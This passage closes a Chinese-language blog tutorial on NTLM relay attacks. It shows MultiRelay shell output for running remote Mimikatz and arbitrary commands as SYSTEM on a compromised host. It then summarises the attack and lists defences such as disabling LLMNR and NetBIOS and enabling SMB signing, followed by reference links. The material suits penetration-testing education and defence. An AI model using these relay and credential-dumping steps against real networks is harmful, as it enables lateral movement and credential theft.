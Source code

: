 ```shell
mimi32  command    -> Run a remote Mimikatz 32 bits command (eg: mimi coffee)
lcmd  command      -> Run a local command and display the result in MultiRelay shell (eg: lcmd ifconfig)
help               -> Print this message.
exit               -> Exit this shell and return in relay mode.
                      If you want to quit type exit and then use CTRL-C

Any other command than that will be run as SYSTEM on the target.

Connected to 172.16.56.11 as LocalSystem.
C:\Windows\system32\:#
```

<img align = "left" src="https://i.loli.net/2021/08/03/i2Tfg17PoLZIbSX.png" alt="截图_选择区域_20210803144439" style="zoom:80%;" />

## 总结

windows的NTLM认证在多种协议例如HTTP,SMB,WPAD,MSSQL中得到广泛应用，但该认证安全性不能得到保证，可通过中间人攻击获取Hash或者中继达到域内横向渗透。如何防范是我们关心的问题

```
1.关闭LLMNR以及NetBIOS服务
2.关闭WPAD代理服务器
3.将域内主机ip添加到本地hosts文件中
4.添加SMB签名
```

## **Reference**

>[NTLM 中继攻击的几种非主流玩法 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/news/476984#:~:text=NTLM 中继攻击的几种非主流玩法. 在企业组织中的常见的一种安全风险是凭证重用，当攻击者攻击 NT LAN Manager 身份验证协议 (以下简称,身份验证)时就会出现这样的风险，而这个协议通常会在 微软的 活动目录 中默认启用。. NTLM 认证中的不安全性已经被安全研究人员发现超过15年了。. 该协议可以被滥用，通过一个称为“中继”的过程劫持受害者的会话，该过程通过将受害者的凭证转发到与预期不同的服务来滥用受害者的凭证。. 在许多情况下，NTLM身份验证仍然受到默认的支持和启用，尽管它已经被更安全的Kerberos取代，成为默认的身份验证方法。.)
>
>[利用 LLMNR 名称解析缺陷劫持内网指定主机会话 – Her0in | 漏洞人生 (vuln.cn)](http://www.vuln.cn/6761)
>
>[利用 NetBIOS 协议名称解析及 WPAD 进行内网渗透 – Her0in | 漏洞人生 (vuln.cn)](http://www.vuln.cn/6762)
>
>[SMB relay攻击复现 - 简书 (jianshu.com)](https://www.jianshu.com/p/9627962db4da)
>
>[浅析SMB relay攻击手法_红帽社区 (redhatzone.com)](https://www.redhatzone.com/ask/article/1459.html)
>
>[内网渗透测试：NTLM Relay攻击分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/244375.html)
>
>[内网渗透之Responder与Net-NTML hash - 简书 (jianshu.com)](https://www.jianshu.com/p/1b545a8b8b1e)
